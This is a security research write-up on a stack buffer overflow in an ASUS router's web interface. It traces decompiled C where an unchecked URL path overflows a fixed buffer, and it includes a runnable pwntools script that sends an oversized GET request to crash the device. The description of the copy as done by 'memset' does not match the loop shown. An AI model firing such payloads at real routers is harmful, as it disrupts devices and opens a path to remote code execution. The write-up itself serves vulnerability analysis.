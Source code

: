 ```c
    if ( !vPath[i] ) // Forever checking if there is a character even if it has length of say 0x300
      break;
    v6 = path_1 == '<';
    if ( path_1 != '<' )
      v6 = path_1 == '>';
    if ( v6 || path_1 == '%' || path_1 == '(' || path_1 == ')' || path_1 == '&' )
      goto LABEL_24;
    *((_BYTE *)&path_string + i++) = *((_WORD *)*_ctype_tolower_loc() + path_1);        // This is where the overwrite occurs
  }
  if ( strstr((const char *)&path_string, "script") || strstr((const char *)&path_string, "//") )
  {
LABEL_24:
    free(path_t);
    return 1;
  }
  ...
```

This tracing shows that while checking for XSS using a blacklist, there is a vulnerability that allows an attacker to create a long string in the `url` path in a request when accessing `router.asus.com`.

Here, the `path` variable is controllable via the `url` path and this function does not check if `vPath`’s length is more than the allocated buffer. The string pointed to by the `vPath` variable is copied to the `path_string` buffer via `memset` function. The catch is that `path_string` buffer is of a fixed size while `vPath` can exceed because there is no check for size. This explains the `strlen` addition to the binary as patch.

What happens is that, there will be checks for some characters to be deemed as bad. Next, while there are still characters in `vPath` even if it exceeds the buffer size of `0x100`, it will still continue to write into `path_string` and increments `i`. So if we write more than `0x218` bytes, we can start to alter the stack outside of its stack frame.

## Dynamic Analysis

`pwntools` is a popular Python library that can be used to build exploits. The following script can be used to trigger the crash:

```python
from pwn import *
context.terminal = ["terminator","-e"]
context(arch='arm', bits=32, endian='little', os='linux')

HOST = "192.168.2.1"  # CHANGE THIS TO ADDRESS OF router.asus.com
PORT = 80 # This is the http port where the web interface is at

# Follow the response header copied from the browser
header = "GET /" + "A"*(532) +" HTTP/1.1\r\n"
header += "Host : router.asus.com\r\n"
header += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
header += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
header += "Accept-Language: en-US,en;q=0.5\r\n"
header += "Accept-Encoding: gzip, deflate\r\n"
header += "Cookie: clickedItem_tab=0\r\n"
header += "Connection: keep-alive\r\n"
header += "Upgrade-Insecure-Requests: 1\r\n"
header += "Cache-Control: max-age=0\r\n"

# Connect to the router
p = remote(HOST,PORT)
print p.recvrepeat(1)

p.send(header)
print p.recvrepeat(2)
```
